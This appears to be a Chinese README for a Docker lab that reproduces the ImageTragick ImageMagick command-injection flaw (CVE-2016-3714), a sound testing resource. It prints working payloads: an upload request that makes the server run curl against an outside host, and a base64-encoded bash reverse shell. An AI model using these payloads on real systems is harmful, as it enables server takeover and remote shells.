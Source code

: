 # Imagetragick漏洞（CVE-2016–3714）测试环境

详情见 https://imagetragick.com/ 和 https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html ，不再描述原理。

## 测试方法

一些测试使用的POC：https://github.com/ImageTragick/PoCs

编译及启动测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip/`可见有三个文件：

```bash
├── demo.php # 使用vul.jpg+identify命令测试 
├── upload.php # 支持用户进行上传，并将上传的文件传入PHP的imagick扩展，触发漏洞
└── vul.jpg # 一个简单的POC
```

首先访问`http://your-ip/demo.php`，命令并没有回显，但在docker容器中，已经成功得到`/tmp/success`文件：

![](1.png)

再访问`http://your-ip/demo.php`测试，上传POC文件，数据包如下（**注意，我换了一个POC**）：

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

可见，`www.leavesongs.com:8889`已经接收到http请求，说明curl命令执行成功：

![](2.png)

反弹shell POC：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```